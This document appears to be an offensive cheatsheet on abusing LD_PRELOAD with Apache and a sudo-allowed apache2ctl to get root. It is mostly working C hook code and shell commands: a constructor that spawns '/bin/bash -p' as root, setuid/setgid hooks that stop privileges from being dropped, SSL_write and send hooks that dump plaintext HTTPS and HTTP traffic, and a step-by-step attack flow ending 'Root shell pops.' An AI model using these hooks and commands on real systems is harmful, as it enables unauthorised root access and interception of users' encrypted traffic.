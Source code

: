 

# 🔥 Cheatsheet – LD\_PRELOAD Apache Exploitation

LD\_PRELOAD lets you override libc / library calls in a target binary. With Apache running as root (before dropping privileges), or when `apache2ctl` / `safeapache2ctl` is exploitable via `sudo`, you can preload your malicious `.so` to **intercept calls** or **spawn shells**.

---

## ⚙️ Compilation Basics

Compile a hook into a shared object:

```bash
gcc -fPIC -shared -o hook.so hook.c -ldl
```

Run target with preload:

```bash
LD_PRELOAD=$PWD/hook.so ./target
```

If Apache is run with sudo (via apache2ctl), LD\_PRELOAD can execute your code **as root**.

---

## 🪝 Hook Templates

### 1. **Strcmp hook** (classic CTF trick)

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <dlfcn.h>

int strcmp(const char *s1, const char *s2) {
    printf("[LD_PRELOAD] strcmp('%s','%s')\n", s1, s2);
    int (*orig_strcmp)(const char*, const char*) = dlsym(RTLD_NEXT, "strcmp");
    return orig_strcmp(s1, s2);
}
```

---

### 2. **SSL\_write inspector** (dump HTTPS data)

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <openssl/ssl.h>

int SSL_write(SSL *ctx, const void *buf, int num) {
    int (*orig_SSL_write)(SSL *, const void *, int);
    orig_SSL_write = dlsym(RTLD_NEXT, "SSL_write");

    // dump plaintext traffic
    write(1, buf, num);
    write(1, "\n---\n", 5);

    return orig_SSL_write(ctx, buf, num);
}
```

---

### 3. **Apache-specific: setuid/setgid hook**

If Apache is started as root, it drops privileges with `setuid()`. We can hook that to keep root:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

int setuid(uid_t uid) {
    // hijack setuid: stay root!
    printf("[LD_PRELOAD] Blocking setuid(%d), staying root.\n", uid);
    return 0; // pretend success
}

int setgid(gid_t gid) {
    printf("[LD_PRELOAD] Blocking setgid(%d), staying root.\n", gid);
    return 0;
}

__attribute__((constructor)) void run_shell() {
    setuid(0); setgid(0);
    system("/bin/bash -p");
}
```

➡ Compile and run Apache with this preload → Apache never drops to `www-data`, your shell stays **root**.

---

### 4. **Apache file write interceptor**

Hook `open()` to dump/redirect sensitive files accessed by Apache:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <fcntl.h>

int open(const char *pathname, int flags, ...) {
    int (*orig_open)(const char *, int, ...) = dlsym(RTLD_NEXT, "open");
    printf("[LD_PRELOAD] open('%s')\n", pathname);

    if (strstr(pathname, "httpd.conf")) {
        printf("[LD_PRELOAD] Intercepted Apache config!\n");
    }

    return orig_open(pathname, flags);
}
```

---

### 5. **Apache network sniffer**

Hook `send` to dump HTTP traffic:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <dlfcn.h>

ssize_t send(int sockfd, const void *buf, size_t len, int flags) {
    ssize_t (*orig_send)(int, const void*, size_t, int);
    orig_send = dlsym(RTLD_NEXT, "send");

    printf("[LD_PRELOAD] HTTP send: %.*s\n", (int)len, (char*)buf);
    return orig_send(sockfd, buf, len, flags);
}
```

---

## 🧩 Exploiting Apachectl (CTF Angle)

If `sudo -l` allows:

```
(ALL) NOPASSWD: /usr/local/bin/apache2ctl
```

➡ You can run Apache with your LD\_PRELOAD:

```bash
sudo LD_PRELOAD=/tmp/hook.so apache2ctl -f /etc/apache2/apache2.conf start
```

Because Apache starts as **root**, your hook runs with **root privileges** before it forks/drops to www-data.

---

## 🧹 Cleanup

```bash
rm -f hook.so
unset LD_PRELOAD
```

---

## ⚡ Quick Attack Flow

1. Write hook (e.g. block `setuid` + spawn root shell).
2. Compile:

   ```bash
   gcc -fPIC -shared -o hook.so hook.c -ldl
   ```
3. Run via `sudo apache2ctl` or `safeapache2ctl` with `LD_PRELOAD`:

   ```bash
   sudo LD_PRELOAD=/tmp/hook.so apache2ctl start
   ```
4. Root shell pops. 🎉

---

